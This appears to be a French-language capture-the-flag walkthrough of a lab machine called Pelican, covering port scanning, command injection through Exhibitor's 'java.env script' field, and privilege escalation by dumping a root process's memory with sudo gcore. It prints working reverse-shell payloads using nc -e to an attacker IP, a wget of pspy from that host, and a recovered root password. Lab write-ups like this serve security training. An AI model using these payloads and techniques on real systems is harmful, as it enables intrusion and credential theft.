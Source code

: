   # Pelican

	sudo masscan -p1-65535,U:1-65535 192.168.164.98 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.164.98 -oN nmap.txt
	feroxbuster --silent -u http://192.168.164.98:8080
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
    139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
    445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
    631/tcp open ipp CUPS 2.2  
    2181/tcp open zookeeper Zookeeper 3.4.6-1569965 (Built on 02/20/2014)  
    2222/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
    8080/tcp open http Jetty 1.0  
    8081/tcp open http nginx 1.14.2  
    41665/tcp open java-rmi Java RMI

Rien sur le site du port 8080 mais le site du port 8081 redirige directement vers http://192.168.164.98:8080/exhibitor/v1/ui/index.html

Exploit : https://www.exploit-db.com/exploits/48654

Payload à injecter dans "java.env script" : 

    $(/bin/nc -e /bin/sh 192.168.45.214 443 &)

 Commit => All At Once => OK

Attendre une minute pour que la connexion arrive.

	rlwrap nc -nvlp 443
	...
	cd ~
	cat local.txt

Élévation de privilèges : 

	python -c 'import pty ; pty.spawn("/bin/bash")'
	find / -perm /4000 2>/dev/null
	cat /etc/crontab

Je vois deux tâches planifiées très intéressantes : 

    @reboot root /usr/bin/password-store  
    @reboot root while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done

Mais il n'y a pas les droits sur le fichier /usr/bin/password-store contrairement à ce que je pensais. En revanche cela m'a fait penser à Pspy et à la possibilité d'espionner ces tâches : 

	nc -e /bin/bash 192.168.45.214 9999 &
	wget http://192.168.45.214/pspy64
	chmod u+x pspy64
	./pspy64

Pas de résultats.

Mais en lançant LinPEAS j'ai vu ce que Charles pouvait lancer en tant que root même si je n'avais pas son mot de passe : 

	

> User charles may run the following commands on pelican:  
:  
(ALL) NOPASSWD: /usr/bin/gcore

Plus qu'à exploiter cela, en repensant aux tâches planifiées trouvées plus tôt.
Voir : https://gtfobins.github.io/gtfobins/gcore/#sudo

	ps -aux | grep password-store
	sudo gcore 527
	ls
	strings core.527

On retrouve bien le mot de passe de root dans le dump du processus : 

> 001 Password: root:  
ClogKingpinInning731  
x86_64  
/usr/bin/password-store

	su - 
	cat /root/proof.txt
	

